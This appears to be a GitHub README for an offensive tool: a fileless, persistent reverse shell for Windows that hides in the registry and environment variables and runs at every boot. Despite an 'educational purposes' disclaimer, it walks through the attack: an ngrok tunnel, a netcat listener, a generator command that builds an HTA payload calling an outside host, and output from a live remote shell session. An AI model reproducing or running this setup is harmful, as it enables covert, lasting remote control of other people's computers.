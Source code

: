 # Living off the land (LOTL) persistent reverse shell for windows
This is a fileless living off the land reverse shell written in JScript and Powershell script. It runs every time the windows boots and relies solely on windows registry and environment variables to execute without creating any files on the system<br>
Disclaimer: this program is only for educational purposes
## Proof of concept
WARNING: Since editing windows registries can cause some problems, I really recommend running this program on a virtual machine<br>
download the repository and run POC.hta file on your windows system<br>
Now every time you reboot your windows a messagebox with 'living off the land' message will appear
![alt text](https://github.com/Null-byte-00/LOTL/blob/main/LOTL.png?raw=true)
## Reverse shell
In this case I'm using ngrok to make a tcp tunnel:
```
ngrok tcp 3333
```
then we run netcat to listen on port 3333
```
nc -nvlp 3333
```
### creating payload 
Now we can create out payload with our ngrok tunnel's domain and port 
```
python.exe generator.py 8.tcp.ngrok.io 18053 payload.hta
```
all you have to do now is to run payload.hta in your windows machine and you get a reverse shell
```
┌─[parrot@parrot]─[~]
└──╼ $nc -nvlp 3333
listening on [any] 3333 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 50662
> echo hello
hello
> 
```
this reverse shell is persistent meaning every time you boot the windows the payload will execute
